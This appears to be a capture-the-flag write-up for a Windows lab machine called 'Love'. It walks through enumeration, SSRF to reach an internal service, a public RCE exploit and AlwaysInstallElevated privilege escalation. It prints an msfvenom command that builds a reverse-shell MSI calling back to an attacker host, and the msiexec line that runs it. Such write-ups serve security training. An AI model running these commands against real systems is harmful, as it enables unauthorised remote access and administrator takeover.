# Love

## Gaining Access

Nmap scan:



Lots of ports open.

### TLS Cert Checking

Port 80 reveals a voting system that requries credentials. Port 5000 was blocked off for whatever reason.



A bit of enumeration on the type of service running reveals that it was an outdated software with loads of vulnerabilities:



Checking the certificate on port 443 reveals a hidden sub-domain.



We can add this to the `/etc/hosts` file and view it.

### SSRF -> Authenticated RCE

The sub-domain found reveals this:



Signing up and viewing it would direct us to this page:



I was able to get hits on a HTTP server hosted on my machine, but I could not download or execute anything. Since it was the server sending requests, I tried to enter `http://localhost:5000` and was returned this:



With credentials, we now get a shell using an RCE exploit that is publicly available. Just change the settings here:



Then run the exploit:



## Privilege Escalation

### AlwaysInstallElevated

When on the machine, I ran winPEAS to enumerate for me and found that `AlwaysInstallElevated` was set to 1.



What this exploit allows us to do is execute commands as the Administrator user through `msiexec`. As such, we would first need to generate a quick reverse shell using `msfvenom`.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi -o rev.msi

# on target
msiexec /quiet /qn /i C:\directory\to\rev.msi
```

Afterwards, we would get a shell as the administrator:


